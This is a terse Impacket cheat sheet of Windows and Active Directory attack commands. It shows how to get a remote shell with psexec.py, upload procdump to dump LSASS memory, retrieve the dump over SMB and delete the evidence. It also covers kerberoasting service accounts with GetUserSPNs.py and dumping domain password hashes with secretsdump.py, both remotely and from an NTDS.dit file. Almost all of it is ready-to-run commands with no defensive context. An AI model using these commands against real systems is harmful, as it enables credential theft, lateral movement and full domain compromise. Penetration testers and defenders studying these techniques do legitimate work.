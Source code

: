 # impacket

## psexec.py

Get a cmd:

``` bash
psexec.py "$domain/$domuser:$userpassword@$cible"
```

Execute remote commands (procdump is local in the current working directory, and will automatically be sent by psexec to the remote system for execution):

``` bash
psexec.py -c procdump.exe "$domain/$domuser:$userpassword@$cible" "-acceptEula -ma lsass.exe C:/windows/lsass.dmp"
smbget -w $domain -U $domuser%$userpassword smb://$cible/ADMIN$/lsass.dmp
psexec.py "$domain/$domuser:$userpassword@$cible" "del C:/windows/lsass.dmp"
```


## GetUserSPNs.py

``` bash
GetUserSPNs.py -dc-ip 192.168.1.1 contoso.local/jdupond:'P@$$w0rd' -outputfile "kerberoast_contoso.local_13100.hash"
```

## secretsdump.py

Remotely:

``` bash
secretsdump.py -just-dc -user-status -history contoso.local/Administrator:'P@$$w0rd'@192.168.1.1 | tee secretsdump_contoso.local_192.168.1.1.txt
```

Locally:

``` bash
secretsdump.py -user-status -history -system SYSTEM -ntds ntds.dit local | tee secretsdump_contoso.local_local.txt
```
